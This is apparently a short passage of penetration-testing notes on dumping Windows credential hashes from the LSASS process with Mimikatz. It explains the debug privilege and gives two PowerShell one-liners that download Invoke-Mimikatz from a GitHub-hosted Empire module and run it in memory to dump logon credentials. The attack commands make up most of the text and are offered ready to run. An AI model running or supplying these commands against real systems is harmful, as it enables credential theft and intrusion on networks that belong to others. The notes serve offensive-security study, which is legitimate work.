


hashes from LSASS process
•
sekurlsa::logonPasswords dumps hashes
from LSASS for Accounts currently logged on (or recently logged on) as well as Services running under the context of
user credentials.
But First we have to enable the Debug Mode with "privilege::debug", this allows us
to set the SeDebugPrivilege flag for the desired process. In this mode, programs can receive low-level access to the
memory of processes running on behalf of the system.
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'
Alternative(same
thing):
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -DumpCreds

Bibliography:
•
https://adsecurity.org/?page_id=1821